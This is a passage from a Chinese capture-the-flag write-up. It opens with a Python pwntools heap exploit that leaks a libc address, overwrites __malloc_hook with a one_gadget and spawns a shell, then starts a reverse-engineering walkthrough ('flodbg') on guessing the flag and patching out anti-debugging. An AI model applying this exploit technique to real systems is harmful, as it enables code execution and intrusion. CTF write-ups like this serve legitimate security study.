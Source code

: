 ```python
def free():
    choice(3)


def edit(size,content):
    choice(4)
    n.recvuntil("Size > ")
    n.sendline(str(size))
    n.recvuntil("Content > ")
    n.send(content)
regs()
new(0x18,'0000')
edit(0x18+7,'a'*0x18+p32(0xd91))
new(0x1000,'1111')
new(0x68,'a'*8)
show()
libcbase = u64(n.recvuntil('\x7f')[-6:]+'\x00\x00')-0x3ec2a0
print hex(libcbase)
malloc_hook  = libcbase + libc.sym['__malloc_hook']
one_gadget = libcbase + 0x4f322
free()
edit(0x68,p64(malloc_hook-0x10+1-0x8))
new(0x68,'aaaa')
new(0x68,'a'*7+p64(one_gadget)*3)
choice(1)
n.recvuntil('>')
n.sendline('114')
n.interactive()
```


# flodbg
各种反调试反反编译的一题，但是靠猜也很容易猜出来，这里就详细写一下怎么猜出来的

![图片](https://uploader.shimo.im/f/QoGGsTPPVVYcVCzP.png!thumbnail)


反编译后看main函数先是逐字符输入直到v3==&v7，也就是从[rbp-4D8]开始写，写到[rbp-48C]时停止，也就是76byte，由于这里是int就还要除4，也就是19个字符

![图片](https://uploader.shimo.im/f/qE61QUalT1gv6MIy.png!thumbnail)

接着是预定义一个长度为19的字符串，看到有flag和{}很容易猜到flag是由这串变化来的

![图片](https://uploader.shimo.im/f/OUJGTND4498mLH1k.png!thumbnail)

由于这里有个简单的反调试，所以先patch一下

patch前

![图片](https://uploader.shimo.im/f/OhmxUraAYtQfY1SW.png!thumbnail)

